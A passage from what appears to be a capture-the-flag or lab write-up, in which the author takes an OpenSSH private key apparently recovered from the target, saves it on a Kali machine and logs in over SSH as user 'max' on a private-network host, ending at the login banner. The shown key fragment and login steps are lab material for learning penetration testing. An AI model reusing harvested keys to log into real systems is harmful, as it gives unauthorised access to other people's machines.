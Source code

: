 uNiCzAdSu+RLC0CHf1YOoLWn3smE86CmkcBkAOjk89zIh2nPkrv++thFYTFQnAxmjNsWyP

m0Qa+EvvCAajPHDTCR46n2vvMANUFIRhwtDdCeDzzURs1XJCMeiXD+0ovg/mzg2bp1bYp3

2KtNjtorSgKa7NAAAADnJvb3RAc28tc2ltcGxlAQIDBA==

-----END OPENSSH PRIVATE KEY-----

pasted the key info into kali/home/.ssh

So using his key I am basically max

  

ssh max@192.168.236.78                                                                                 10:07:50

The authenticity of host '192.168.236.78 (192.168.236.78)' can't be established.

ED25519 key fingerprint is SHA256:+ejHZkFq2lUl66K6hxgfr5b2MoCZzYE8v3yBV3/XseI.

This key is not known by any other names.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '192.168.236.78' (ED25519) to the list of known hosts.

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Permissions 0644 for '/home/kali/.ssh/id_rsa' are too open.

It is required that your private key files are NOT accessible by others.

This private key will be ignored.

Load key "/home/kali/.ssh/id_rsa": bad permissions

Make sure to set perms to 700

  

chmod 700 id_rsa

ssh max@192.168.236.78                                                                                  10:09:47

Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

  

 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com

 * Support:        https://ubuntu.com/advantage

  

  System information as of Mon Jun  5 14:09:49 UTC 2023

  

  System load:  0.0               Processes:                168

